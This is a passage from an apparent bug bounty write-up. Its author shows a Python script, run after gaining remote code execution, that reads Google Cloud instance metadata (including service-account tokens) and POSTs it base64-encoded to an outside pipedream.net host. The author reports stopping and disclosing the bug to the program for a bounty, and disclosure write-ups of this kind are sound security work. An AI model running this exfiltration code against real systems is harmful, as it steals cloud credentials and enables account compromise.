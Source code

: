Beautified one line code for you :)

```python
import requests
import base64

metadata_url = 'http://169.254.169.254/computeMetadata/v1/instance/?recursive=true'

metadata_headers = {'Metadata-Flavor': 'Google'} # custom metadata header requirement we have RCE so we could add it easily ;)

response = requests.get(metadata_url, headers=metadata_headers)

encoded_metadata = base64.b64encode(response.text.encode()).decode()

target_server_url = 'https://en2celq7rewbul.m.pipedream.net/'

data_payload = {'metadata': encoded_metadata}

requests.post(target_server_url, json=data_payload)
```

The above code basically makes a request to the Google cloud Metadata Endpoint then sends the json response to my server (which is base64 encoded), at last I also confirmed if I could fetch access_token for the used serviceAccount.

After confirming all this I ceased my testing and reported everything to the program.


The program was really happy with the report, although their maximum payout was 3k they still paid this 4.5k for this bug

![image](https://github.com/Sudistark/BB-Writeups/assets/31372554/b501f9f9-57f4-4138-8984-23ea6e981ec9)
